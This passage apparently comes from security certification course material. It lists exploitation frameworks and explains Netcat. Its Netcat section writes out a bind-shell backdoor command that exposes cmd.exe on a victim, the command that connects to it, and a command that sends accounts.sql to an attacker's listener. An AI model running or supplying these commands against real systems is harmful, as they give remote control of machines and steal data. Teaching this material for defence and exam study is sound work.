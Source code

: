 ![Text includes "Easy phishing: Set up email templates, landing pages and listeners in Metasploit Pro… 1611 exploits… 471 payloads… Free...trial..."](https://s3.amazonaws.com/wmx-api-production/courses/5731/images/3058-1599771795118.png)

Metasploit Framework Console. (Screenshot used with permission from [metasploit.com](https://www.metasploit.com/).)

Sn1per ([github.com/1N3/Sn1per](https://github.com/1N3/Sn1per)) is a framework designed for penetration test reporting and evidence gathering. It can integrate with other tools such as Metasploit and Nikto to run automated suites of tests. Results can be displayed as web reports. 

There are many other exploitation frameworks targeting different kinds of vulnerabilities. Some examples include:

-   fireELF—injecting fileless exploit payloads into a Linux host ([github.com/rek7/fireELF](https://github.com/rek7/fireELF)).
-   RouterSploit—vulnerability scanning and exploit modules targeting embedded systems ([github.com/threat9/routersploit](https://github.com/threat9/routersploit)).
-   Browser Exploitation Framework (BeEF)—recovering web session information and exploiting client-side scripting ([beefproject.com](https://beefproject.com/)).
-   Zed Attack Proxy (ZAP)—scanning tools and scripts for web application and mobile app security testing ([owasp.org/www-project-zap](https://owasp.org/www-project-zap/)).
-   Pacu—scanning and exploit tools for reconnaissance and exploitation of Amazon Web Service (AWS) accounts ([rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework](https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/)).

## NETCAT

One simple but effective tool for testing connectivity is Netcat (nc), available for both Windows and Linux. Netcat is a computer networking utility for reading and writing raw data over a network connection, and can be used for port scanning and fingerprinting. For example, the following command attempts to connect to the HTTP port on a server and return any banner by sending the "head" HTTP keyword: **(To check for if it's possible to open a network connection to a remote host over a given port#)** 

echo "head" | nc 10.1.0.1 -v 80

Netcat can also establish connections with remote machines. To configure Netcat as a backdoor, you first set up a listener on the victim system (IP: 10.1.0.1) set to pipe traffic from a program, such as the command interpreter, to its handler:

nc -l -p 666 -e cmd.exe

The following command connects to the listener and grants access to the terminal:

nc 10.1.0.1 666

Used the other way around, Netcat can be used to receive files. For example, on the target system the attacker runs the following:

type accounts.sql | nc 10.1.0.192 6666

On the handler (IP 10.1.0.192), the attacker receives the file using the following command:

nc -l -p 6666 > accounts.sql

# 3B
## EXAM OBJECTIVES COVERED

